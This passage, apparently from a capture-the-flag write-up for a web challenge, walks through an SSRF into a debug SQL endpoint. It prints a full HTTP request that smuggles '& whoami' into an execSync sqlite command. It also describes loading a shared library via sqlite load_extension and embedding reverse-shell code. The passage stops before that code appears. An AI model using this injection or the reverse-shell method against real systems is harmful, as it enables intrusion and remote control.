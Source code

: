 
It was executing a sqlite queries as a command on system with execSync taking an input from the user by only filtering out double quotes.

However we needed to be a localhost to execute the command and the sql-prompt.html also didn't include a submit button. xD This and that the invalid `apikey` we found earlier just gave a instant hint that we can use the `POST` endpoint at `/api/sms/test` for sending the request at `/debug/sql/exec`:

We came up with the following Request for making a valid sqlite query:

```r
POST /api/sms/test HTTP/1.1
Host: 159.65.63.151:32528 
Content-Length: 418
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36 
Content-Type: application/json 
Accept: */* 
Origin: http://159.65.63.151:32528 
Referer: http://159.65.63.151:32528/sms-settings Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 
Cookie:session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjcwMDAxMDcyfQ.Nj1dGrOgfIJ9iNocGRSJmCIVKQhJhKqEyo3ExAu4vkE 
Connection: close 

{"verb":"POST","url":"http://127.0.0.1:1337/debug/sql/exec","params":"{\"sql\" : \"select 0 from enrollments; & whoami\", \"password\": \"CzliwZJkV60hpPJ\"}","headers":"Content-Type: application/json\nCookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjcwMDAxMDcyfQ.Nj1dGrOgfIJ9iNocGRSJmCIVKQhJhKqEyo3ExAu4vkE","resp_ok":"<status>ok</status>","resp_bad":"<status>error</status>"}
```

![](/assets/img/htb/magicinformer/TheMagicInformer-4.png)

Now we needed to somehow get an RCE or the ability to execute commands but the double quote filter was a issue. Just simple searches lead me to the `load_Extensions()` function  in sqlite. 

We found the following github repository which included the source code to make a shared library file that the function takes in as a input then which later allows us to execute commands: [GitHub Link](https://github.com/mpaolino/sqlite-execute-module)

We were able to execute commands like `ls` and `whoami`:
![](/assets/img/htb/magicinformer/TheMagicInformer-5.png)

I found the file `readflag` stored at `/` , It had a suid bit. I tried executing it but failed, Downloading the binary and running it failed. So I tried getting a reverse shell by trying several payloads found at [PAyloadAllTheThings / Reverse shell cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c)  by executing them but they din't work.

So I tried copying the C code for reverse shell from the cheat sheet and adding it directly into the Shared library so that it gets executed with the main function of it.

So the final code we were left off with was the following:
